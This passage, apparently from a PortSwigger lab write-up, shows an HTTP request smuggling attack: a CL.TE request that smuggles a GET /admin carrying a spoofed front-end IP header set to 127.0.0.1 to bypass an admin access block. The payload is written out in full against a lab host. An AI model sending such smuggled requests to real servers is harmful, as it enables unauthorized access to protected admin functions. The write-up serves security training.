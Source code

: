 ```http
Accept-Encoding: gzip, deflate
Accept-Language: en-US,
```

As you can see, we've leaked the `X-SnzJQv-Ip` header is the what front-end server will add!

**Now, we can smuggle that header to `127.0.0.1`. By doing that, we can bypass the access block in admin panel:**
```http
POST / HTTP/1.1
Host: 0ad8009603349161c0da0e7f00a2009f.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 131
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-SnzJQv-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 13

bypasspls=
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-8/images/Pasted%20image%2020230201171646.png)
